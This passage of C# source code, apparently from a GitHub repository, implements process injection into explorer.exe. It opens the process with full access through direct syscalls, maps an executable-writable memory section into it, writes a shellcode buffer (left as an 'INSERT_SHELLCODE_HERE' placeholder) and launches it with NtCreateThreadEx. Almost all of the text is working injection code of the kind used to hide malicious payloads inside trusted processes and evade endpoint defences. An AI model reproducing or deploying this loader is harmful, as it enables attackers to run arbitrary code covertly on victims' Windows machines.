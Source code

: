 ```csharp
            Data.Win32.WinNT.PAGE_READWRITE
        );

        uint explorerId =
            (uint)Process.GetProcessesByName("explorer").First().Id;
        IntPtr hProcess = Syscall.NtOpenProcess(
            explorerId,
            Data.Win32.Kernel32.ProcessAccessFlags.PROCESS_ALL_ACCESS
        );
        IntPtr remoteSectionAddress = IntPtr.Zero;

        Syscall.NtMapViewOfSection(
            sectionHandle,
            hProcess,
            ref remoteSectionAddress,
            IntPtr.Zero,
            IntPtr.Zero,
            tmp,
            ref pageSize,
            2,
            0,
            Data.Win32.WinNT.PAGE_EXECUTE_READWRITE
        );

        byte[] buf = new byte[907] { INSERT_SHELLCODE_HERE };

        IntPtr bufSize = (IntPtr)buf.Length;
        IntPtr bufPtr = IntPtr.Zero;

        unsafe
        {
            fixed(byte *p = buf)
            {
                bufPtr = (IntPtr)p;
            }
        }

        Syscall.NtWriteVirtualMemory(
            hThis,
            localSectionAddress,
            bufPtr,
            (uint)bufSize
        );

        IntPtr hThread = IntPtr.Zero;

        Syscall.NtCreateThreadEx(
            ref hThread,
            Data.Win32.WinNT.ACCESS_MASK.GENERIC_ALL,
            IntPtr.Zero,
            hProcess,
            remoteSectionAddress,
            IntPtr.Zero,
            false,
            0,
            0,
            0,
            IntPtr.Zero
        );
    }
}
}
```